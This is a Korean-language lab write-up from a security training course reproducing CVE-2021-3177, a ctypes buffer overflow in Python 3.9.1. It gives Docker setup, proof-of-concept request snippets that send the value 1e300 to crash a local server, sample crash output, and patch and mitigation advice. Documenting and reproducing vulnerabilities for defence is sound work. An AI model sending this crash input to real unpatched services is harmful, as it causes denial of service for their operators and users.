


# CVE-2021-3177

> 화이트햇 스쿨 4기 - 고현선

<br/>

### 요약

- CVE-2021-3177은 Python의 `ctypes` 모듈에서 발견된 버퍼 오버플로 취약점이다.
- 취약한 Python은 `ctypes.c_double` 객체를 문자열로 표현할 때 고정 크기 버퍼와 `sprintf()`를 사용한다.
- `1e300`처럼 문자열 표현이 매우 긴 부동소수점 값을 `repr(c_double.from_param(value))`로 처리하면 버퍼가 넘쳐 Python 프로세스가 비정상 종료될 수 있다.
- 외부 입력이 해당 코드 경로까지 전달되는 서비스에서는 원격 공격자가 반복적으로 프로세스를 종료시켜 서비스 거부(DoS)를 유발할 수 있다.
- 본 실습은 취약한 Python 3.9.1 환경에서 프로세스 비정상 종료를 재현했다.

<br/>

### 취약 조건

다음 조건을 모두 만족할 때 취약점이 발생한다.

- Python 3.9.1 이하의 취약 버전 사용
- 외부 입력을 부동소수점 값으로 변환
- 해당 값을 `ctypes.c_double.from_param()`에 전달
- 반환된 객체에 `repr()` 또는 문자열 출력 수행
- `1e300`처럼 문자열 표현이 긴 값을 입력

<br/>

### 환경 구성 및 실행

- `docker compose up -d` 또는 `docker-compose up -d` 커맨드로 취약 환경 실행



- Docker Compose는 취약점이 존재하는 `python:3.9.1-slim` 이미지를 사용
- 컨테이너 내부 HTTP 서버는 8000번 포트에서 요청을 받고, `value` 파라미터를 다음 코드로 처리

```python
repr(c_double.from_param(value))
```

- 별도의 Python 패키지 설치 없이 `python3 poc.py` 커맨드로 PoC 실행
- 실습 후 `docker compose down --remove-orphans` 커맨드로 환경 종료

<br/>

### poc.py

정상 값 `1.0`을 전송하여 서버가 정상적으로 동작하는지 먼저 확인한다.

```python
normal = request("http://127.0.0.1:8000/?value=1.0")
```

이후 취약점을 발생시키는 값 `1e300`을 전송한다.

```python
request("http://127.0.0.1:8000/?value=1e300")
```

악성 요청 이후 HTTP 연결이 비정상적으로 종료되고, Docker 컨테이너가 0이 아닌 종료 코드로 종료되었는지 확인한다.

```python
status, exit_code = get_container_state()

if status == "exited" and exit_code != 0:
    print("[+] CVE-2021-3177 재현 성공")
```

<br/>

### 결과

정상 요청에서는 `ctypes` 객체의 문자열 표현이 반환된다.

```text
[+] 정상 요청 성공: <cparam 'd' (1.0)>
```

악성 값 `1e300`을 전송하면 Python 프로세스가 버퍼 오버플로로 종료된다. 운영체제와 Docker 환경에 따라 종료 코드는 `134` 또는 `139` 등으로 달라질 수 있다.

```text
[*] CVE-2021-3177 PoC 시작
[+] 정상 요청 성공: <cparam 'd' (1.0)>
[*] 악성 부동소수점 값 1e300 전송
[+] 서버 연결 종료 확인: RemoteDisconnected
[+] 컨테이너 상태: exited, 종료 코드: 139
[+] CVE-2021-3177 재현 성공: 원격 입력으로 Python 프로세스가 비정상 종료되었습니다.
```

실행 결과 화면은 아래와 같다.



<br/>

### 정리

해당 취약점을 통해 공격자는 외부 입력을 `ctypes.c_double`로 처리하는 Python 서비스를 비정상 종료시켜 서비스 거부(DoS)를 유발할 수 있다.

이를 방지하기 위해 Python을 취약점이 수정된 버전으로 업데이트해야 한다.

- Python 3.6.13 이상
- Python 3.7.10 이상
- Python 3.8.8 이상
- Python 3.9.2 이상

추가로 외부 입력을 직접 `ctypes` 인자로 전달하지 않고, 입력값의 범위와 형식을 검증해야 한다. 또한 서비스 프로세스에는 최소 권한과 자원 제한을 적용하는 것이 좋다.

<br/>

### 참고 자료

- [NVD - CVE-2021-3177](https://nvd.nist.gov/vuln/detail/CVE-2021-3177)
- [Python Issue 42938](https://bugs.python.org/issue42938)
